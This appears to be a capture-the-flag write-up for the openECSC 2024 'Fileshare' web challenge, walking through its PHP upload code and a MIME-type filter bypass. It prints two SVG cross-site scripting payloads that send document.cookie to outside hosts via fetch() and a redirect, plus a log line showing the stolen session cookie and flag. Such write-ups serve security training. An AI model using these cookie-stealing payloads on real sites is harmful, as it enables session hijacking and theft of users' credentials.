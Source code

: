 # Fileshare

## Description
```
You can now share your files for free thanks to our new disruptive technology!

Site: https://fileshare.challs.open.ecsc2024.it
```

## Provided Files
```
- fileshare.zip
```

## Writeup

Starting off, I took a look at the provided files. <br/>
```php
<?php
session_start();

include_once('header.php');

if (isset($_POST['email']) || isset($_POST['fileid']) || isset($_POST['message'])) {
    
    $fileid = $_POST['fileid'];
    if (preg_match('/^[a-f0-9]{30}$/', $fileid) === 1) {

        $url = 'http://' . getenv('HEADLESS_HOST');
        $chall_url = 'http://' . getenv('WEB_DOM');
        $act1 = array('type' => 'request', 'url' => $chall_url);
        $act2 = array('type' => 'set-cookie', 'name' => 'flag', 'value' => getenv('FLAG'));
        $act3 = array('type' => 'request', 'url' => $chall_url . '/download.php?id=' . $fileid);
        
        $data = array('actions' => [$act1, $act2, $act3], 'browser' => 'chrome');
        $data = json_encode($data);

        $options = array(
            'http' => array(
                'header'  => "Content-type: application/json\r\n" . "X-Auth: " . getenv('HEADLESS_AUTH') . "\r\n",
                'method'  => 'POST',
                'content' => $data
            )
        );

        $context  = stream_context_create($options);
        $result = file_get_contents($url, false, $context);

        if ($result === FALSE) {
            echo '<div class="alert alert-danger" role="alert">Sorry, there was an error sending your message.</div>';
        } else {
            echo '<div class="alert alert-success" role="alert">Thank you, we are taking care of your problem!</div>';
        }
        
    } else {
        echo '<div class="alert alert-success" role="alert">Thank you for your submission</div>';
    }
}

?>
```

I found the flag being passed as cookie again in the `support.php` endpoint which indicated a `XSS` vulnerability of some kind. <br/>
Taking a look at the `upload.php` endpoint revealed a filter in the file upload function. <br/>
```php
<?php
session_start();

include_once('header.php');
include_once('db.php');

if( isset($_FILES['file']) ) {
    $target_dir = "/uploads/";

    $fileid = bin2hex(random_bytes(15));
    $target_file = $target_dir . $fileid;

    $type = $_FILES["file"]["type"];
    // I don't like the letter 'h'
    if ($type == "" || preg_match("/h/i", $type) == 1){
        $type = "text/plain";
    }

    $db = db_connect();
    $stmt = $db->prepare('INSERT INTO files (id, filename, content_type, size) VALUES (?, ?, ?, ?)');
    $stmt->bindParam(1, $fileid);
    $stmt->bindParam(2, $_FILES["file"]["name"]);
    $stmt->bindParam(3, $type);
    $stmt->bindParam(4, $_FILES["file"]["size"]);
    $stmt->execute();
    $db->close();

    if (move_uploaded_file($_FILES["file"]["tmp_name"], $target_file)) {
        echo '<div class="alert alert-success" role="alert">The file '. htmlspecialchars( basename( $_FILES["file"]["name"])). " has been uploaded <a href=\"/download.php?id=$fileid\">here</a>.</div>";
        
    
        if (isset($_SESSION['files']) && is_array($_SESSION['files'])) {
            $_SESSION['files'][] = $fileid;
        } else {
            $_SESSION['files'] = [$fileid];
        }
    } else {
        echo '<div class="alert alert-danger" role="alert">Sorry, there was an error uploading your file.</div>';
    }
}

?>
```

The filter would basically demote any files with an `h` in the extension name to a `.txt` file. <br/>
This would convert a `.html` file which could possibly execute some malicious javascript code when accessed to a simple `.txt` file which does only dispaly the files contents when being accessed through the browser. <br/>
To bypass this filter I used a `.svg` file which is essentially an image vector file but it actually also allows the passing of `javascript` code. <br/>
```xml
<svg version="1.1" id="loader-1" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" x="0px" y="0px"
     width="40px" height="40px" viewBox="0 0 50 50" style="enable-background:new 0 0 50 50;" xml:space="preserve">
  <script type="text/javascript">
    fetch(`https://eovbebh4rmd668f.m.pipedream.net/${encodeURI(document.cookie)}`)
  </script>
</svg>
```

Uploading this file and accessing its location actually triggered a request to my vserver, but testing this on the support page didn't trigger a request. <br/>
After some tampering with the javascript in the `.svg` file I essentially found a workaround for the request being made. <br/>
```xml
<svg version="1.1" id="loader-1" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" x="0px" y="0px"
     width="40px" height="40px" viewBox="0 0 50 50" style="enable-background:new 0 0 50 50;" xml:space="preserve">
  <script type="text/javascript">
    window.location.replace(`https://aryt3.dev/${encodeURI(document.cookie)}`)
  </script>
</svg>
```

Watching the `nginx-access-log` I got a request with the flag being passed along via the URL which concludes this writeup. <br/>
```
XXX.XXX.XXX.XXX - - [20/Mar/2024:22:47:26 +0100] "GET /PHPSESSID=e191d9b20de1a6d0ee0cfc120880c18f;%20flag=openECSC%7Bwhy_w0uld_u_sh4re_th1s%7D HTTP/1.1" 291 621 "firefox-headless-agent"
```